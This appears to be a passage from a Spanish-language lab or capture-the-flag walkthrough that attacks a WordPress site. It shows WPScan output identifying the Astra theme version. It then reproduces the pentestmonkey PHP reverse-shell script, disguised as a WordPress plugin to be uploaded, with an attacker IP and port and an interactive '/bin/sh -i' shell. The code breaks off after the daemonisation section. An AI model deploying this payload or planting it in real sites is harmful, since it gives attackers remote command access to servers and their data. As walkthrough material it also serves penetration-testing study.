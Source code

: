 ```bash
 | Version: 4.8.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://escolares.dl/wordpress/wp-content/themes/astra/style.css, Match: 'Version: 4.8.8'
```

Usaremos este script que nos permite subir un archivo para que nos otorgue una revershell: [Revershell PentesMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php)
```php
<?php
/*
Plugin Name: Reverse Shell Plugin
Plugin URI: https://github.com/SkyW4r33x
Description: Plugin RevShell
Version: 1.0
Author: SkyW4r33x
Author URI: https://github.com/SkyW4r33x
License: GPL2
*/
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

```